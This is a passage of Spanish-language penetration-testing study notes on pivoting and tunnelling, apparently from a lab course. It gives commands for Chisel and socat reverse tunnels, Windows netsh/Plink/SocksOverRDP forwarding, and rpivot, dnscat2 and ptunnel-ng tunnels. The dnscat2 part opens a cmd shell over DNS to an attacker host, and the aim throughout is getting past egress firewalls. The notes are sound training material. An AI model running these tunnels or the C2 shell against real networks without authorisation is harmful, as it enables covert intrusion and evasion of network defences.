./chisel client 10.10.14.5:8000 R:3389:172.16.5.25:3389
```
Variante de `R:` para redirigir un puerto **concreto** en vez de un SOCKS completo (aquí, el RDP de un host interno) — directamente a tu `localhost:3389`, sin pasar por proxychains.

> [!TIP]
> **Forward vs. reverso**
> **Forward** (`socks` en el cliente) → úsalo cuando el pivote puede alcanzarte O cuando prefieres que el SOCKS viva en el lado del pivote. **Reverso** (`R:socks` / `R:<local>:<destino>`) → imprescindible cuando el objetivo está detrás de un firewall que bloquea las conexiones entrantes pero sí deja salir tráfico hacia ti.

---

### Socat — relay TCP simple, sin SOCKS

[Socat](http://www.dest-unreach.org/socat/) no monta un proxy SOCKS: **reenvía un puerto a otro de forma directa**, como un cable de red. Útil para saltos simples de un único destino, o para encadenar dos pivotes.

```bash
socat TCP4-LISTEN:8080,fork TCP4:<IP_del_atacante>:80
```
Escucha en el 8080 (`fork` = acepta múltiples conexiones, una por cliente) y reenvía cada conexión al atacante, puerto 80.

```bash
socat TCP4-LISTEN:8080,fork TCP4:<IP_del_objetivo>:8443
```
Mismo patrón pero reenviando hacia un objetivo interno — útil en un pivote intermedio para encadenar el salto sin montar SOCKS.

> [!NOTE]
> **Cuándo usar Socat en vez de Chisel**
> Socat es más ligero y no necesita dos extremos "hablando el mismo protocolo Chisel" — sirve para un **relay puntual** de un solo puerto. Si necesitas acceso a **toda una red** (varios puertos/hosts), un SOCKS (Chisel, `ssh -D`, `socks_proxy`) es más práctico que encadenar `socat` puerto a puerto.

---

### Resumen rápido (cheatsheet)

| Comando | Qué hace |
|---------|----------|
| `chisel server -v -p <puerto> --socks5` | Servidor Chisel, SOCKS en modo directo |
| `chisel client -v <IP_servidor>:<puerto> socks` | Cliente Chisel, conecta y expone SOCKS en el pivote |
| `chisel server -p <puerto> --reverse -v` | Servidor Chisel en tu atacante, modo reverso |
| `chisel client <IP_atacante>:<puerto> R:socks` | Cliente pide SOCKS reverso → queda en TU `127.0.0.1:1080` |
| `chisel client <IP_atacante>:<puerto> R:<local>:<destino>:<puerto>` | Reenvío reverso de un puerto concreto |
| `socat TCP4-LISTEN:<p>,fork TCP4:<IP_destino>:<p2>` | Relay TCP directo, sin SOCKS |

---

Relacionado: **Redirección Dinámica de Puertos con SSH y Tunelización SOCKS** · **Redirección Remota (Reversa) de Puertos con SSH** (mismo problema, solución con SSH) · **0 - Pivoting, Tunneling y Port Forwarding (Índice y cheatsheet)**

---

## Redirección de puertos en Windows (netsh, Plink, SocksOverRDP)

Cuando el **host pivote es Windows** y no tienes SSH ni herramientas Linux a mano, estas son las alternativas nativas o casi-nativas.

---

### netsh portproxy — redirección local nativa de Windows

No necesita instalar nada: `netsh` viene en todo Windows. Reenvía un puerto local a un destino, igual que **`ssh -L`**, pero sin SSH.

```cmd
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.25
```

| Parte | Qué es |
|-------|--------|
| `add v4tov4` | Regla IPv4→IPv4 (también existen `v4tov6`, `v6tov4`, `v6tov6`) |
| `listenport=` / `listenaddress=` | Puerto/IP donde escucha, **en el propio host Windows** |
| `connectport=` / `connectaddress=` | Destino al que reenvía (un objetivo interno, ej. RDP en el 3389) |

```cmd
netsh.exe interface portproxy show v4tov4
```
Lista las reglas activas.

> [!WARNING]
> **Requiere privilegios de administrador**
> `netsh interface portproxy` necesita ejecutarse como **administrador** en el host Windows. También recuerda abrir el firewall local (`netsh advfirewall firewall add rule ...`) si el puerto de escucha está bloqueado.

---

### Plink — SSH dinámico desde Windows

[PuTTY](https://www.putty.org/) trae **Plink** (`plink.exe`), su cliente SSH en línea de comandos — permite el mismo **`-D` dinámico** que en Linux, pero lanzado desde un Windows que sí tenga Plink disponible (o que puedas subir).

```cmd
plink -D 9050 ubuntu@<IP_del_objetivo>
```
Monta un SOCKS dinámico en el puerto 9050, exactamente igual que `ssh -D 9050` — después se usa igual con `proxychains` desde Linux, o con herramientas que soporten SOCKS en el propio Windows.

---

### SocksOverRDP — pivotar reutilizando la propia sesión RDP

Cuando ya tienes una sesión **RDP** activa hacia un host Windows (y ese host ve una red interna más), el plugin **SocksOverRDP** monta un proxy SOCKS **sobre el propio canal RDP**, sin abrir conexiones nuevas.

```cmd
regsvr32.exe SocksOverRDP-Plugin.dll
```
Registra el plugin (DLL) en el cliente RDP — debe hacerse en **tu** máquina Windows antes de iniciar la sesión RDP hacia el pivote.

```cmd
netstat -antb | findstr 1080
```
Tras conectar por RDP con el plugin activo, confirma que el proxy SOCKS está escuchando localmente en el **1080** — ese es el puerto que luego apuntas en `proxychains`/el navegador para que el tráfico viaje dentro del túnel RDP.

> [!TIP]
> **Cuándo usarlo**
> Es la opción más discreta cuando el camino de entrada al pivote **ya es RDP**: no necesitas SSH, Plink, ni subir herramientas — reaprovechas la sesión gráfica que ya tienes abierta.

---

### Resumen rápido (cheatsheet)

| Comando | Qué hace |
|---------|----------|
| `netsh interface portproxy add v4tov4 listenport=<p> listenaddress=<IP> connectport=<p> connectaddress=<IP>` | Redirección local nativa (sin SSH) |
| `netsh interface portproxy show v4tov4` | Ver reglas activas |
| `plink -D <puerto> <user>@<IP>` | SOCKS dinámico desde Windows (equivalente a `ssh -D`) |
| `regsvr32.exe SocksOverRDP-Plugin.dll` | Registrar el plugin SOCKS-sobre-RDP (en tu máquina) |
| `netstat -antb \| findstr 1080` | Confirmar que el SOCKS vía RDP está activo |

---

Relacionado: **Redirección Local de Puertos con SSH** · **Redirección Dinámica de Puertos con SSH y Tunelización SOCKS** · **Protocolos de Administración Remota de Windows** (módulo Footprinting) · **0 - Pivoting, Tunneling y Port Forwarding (Índice y cheatsheet)**

---

## Túneles de último recurso: rpivot, dnscat2 e ICMP (ptunnel-ng)

Cuando el firewall de salida bloquea SSH y HTTP directo, pero deja pasar **algo** — un proxy corporativo, resoluciones DNS, o simples pings — estas herramientas tunelizan tráfico **dentro de ese "algo"**. Son la última opción, no la primera: más lentas y más frágiles que **Chisel** o **SSH**, pero a veces son la **única** salida disponible.

---

### rpivot — pivotar a través de un proxy HTTP

[rpivot](https://github.com/klsecservices/rpivot) monta un túnel SOCKS reverso **sobre HTTP**, útil cuando la única salida de la red interna es a través de un **proxy HTTP corporativo** (incluso con autenticación NTLM).

```bash
sudo git clone https://github.com/klsecservices/rpivot.git
sudo apt-get install python2.7
```
rpivot necesita **Python 2.7** (proyecto antiguo, sin mantenimiento activo — de ahí que sea "último recurso").

```bash
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```
En tu **atacante**: servidor rpivot, con el SOCKS en el puerto 9050 y escuchando conexiones de clientes en el 9999.

```bash
scp -r rpivot ubuntu@<IP_del_objetivo>:~/
```
Copia el directorio **completo** de rpivot al host pivote (necesita el código fuente, no es un binario único como Chisel).

```bash
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```
Desde el pivote: el cliente se conecta de vuelta a tu servidor — igual de "reverso" que un `chisel client ... R:socks`.

#### Variante con proxy HTTP + NTLM

```bash
python client.py --server-ip <IP_servidor_web_objetivo> --server-port 8080 --ntlm-proxy-ip <IP_del_proxy> --ntlm-proxy-port 8081 --domain <dominio> --username <user> --password <pass>
```
Si la salida de la red pasa obligatoriamente por un **proxy con autenticación NTLM**, rpivot puede autenticarse contra él para que el túnel lo atraviese.

```bash
proxychains firefox-esr <IP_del_servidor_web_objetivo>:80
```
Una vez el SOCKS está arriba, se usa con `proxychains` como cualquier otro — aquí, para navegar a un servidor web interno desde el propio Firefox.

---

### dnscat2 — tunelización sobre DNS

Cuando **todo** el tráfico de salida está bloqueado excepto las consultas DNS (muy habitual en redes corporativas muy restringidas), [dnscat2](https://github.com/iagox86/dnscat2) encapsula una **shell de comando y control** dentro de peticiones/respuestas DNS.

```bash
git clone https://github.com/iagox86/dnscat2.git
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```
Servidor dnscat2, en tu atacante, resolviendo el dominio `inlanefreight.local` — necesitas controlar un NS para ese dominio (o apuntar el objetivo directamente a tu IP).

```powershell
git clone https://github.com/lukebaggett/dnscat2-powershell.git
Import-Module dnscat2.ps1
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd
```
Cliente en PowerShell (sin necesitar Ruby/dependencias en el objetivo Windows): se conecta al servidor, con un **secreto compartido** para cifrar el canal, y abre una shell `cmd` tunelizada por DNS.

```
dnscat2> ?
dnscat2> window -i 1
```
En el servidor: `?` lista comandos disponibles, `window -i <id>` interactúa con la sesión abierta.

> [!WARNING]
> **Muy lento**
> DNS no está pensado para transportar datos — es tunelización a base de peticiones constantes, con mucha latencia. Resérvalo para shells de comandos, no para transferir ficheros grandes (para eso, mejor **File Transfers** por otro canal si consigues uno).

---

### ptunnel-ng — tunelización sobre ICMP (ping)

Si solo el **ICMP** (ping) sale de la red, [ptunnel-ng](https://github.com/utoni/ptunnel-ng) mete tráfico TCP (típicamente SSH) dentro de paquetes ICMP echo request/reply.

```bash
git clone https://github.com/utoni/ptunnel-ng.git
sudo ./autogen.sh
```
Clona y compila el proyecto.

```bash
sudo ./ptunnel-ng -r10.129.202.64 -R22
```
**Servidor** ptunnel-ng, en el pivote (`-r` IP donde escucha, `-R22` puerto real al que reenviará — aquí SSH).

```bash
sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22
```
**Cliente**, en tu atacante: `-p` servidor ptunnel-ng al que conectar, `-l2222` tu puerto local, `-r`/`-R22` igual que en el servidor (destino final).

```bash
ssh -p2222 -lubuntu 127.0.0.1
```
Con el túnel ICMP arriba, conectas por SSH a tu propio `localhost:2222` — ese tráfico SSH viaja realmente **encapsulado en pings** hasta el pivote.

> [!NOTE]
> **Para qué sirve en la práctica**
> No sustituye a SSH — lo **transporta** cuando el único protocolo de salida permitido es ICMP. Una vez el túnel ICMP está arriba, todo lo demás (proxychains, port forwarding...) funciona igual sobre esa sesión SSH tunelizada.

---

### Resumen rápido (cheatsheet)

| Herramienta | Cuándo usarla | Comando clave |
|-------------|----------------|----------------|
| **rpivot** | Solo sale tráfico a través de un **proxy HTTP** (con o sin NTLM) | `server.py --proxy-port 9050 --server-port 9999` / `client.py --server-ip <atacante> --server-port 9999` |
| **dnscat2** | Solo salen **consultas DNS** | `ruby dnscat2.rb --dns host=<IP>,port=53,domain=<d>` / `Start-Dnscat2 -DNSserver <IP> -Domain <d> -PreSharedSecret <k>` |
| **ptunnel-ng** | Solo sale **ICMP** (ping) | `ptunnel-ng -r<IP> -R22` (servidor) / `ptunnel-ng -p<IP> -l2222 -r<IP> -R22` (cliente) → `ssh -p2222 localhost` |

---

Relacionado: **Chisel y Socat** (más rápido si HTTP/HTTPS sale) · **Pivotaje SSH con Sshuttle** · **0 - Pivoting, Tunneling y Port Forwarding (Índice y cheatsheet)**

---
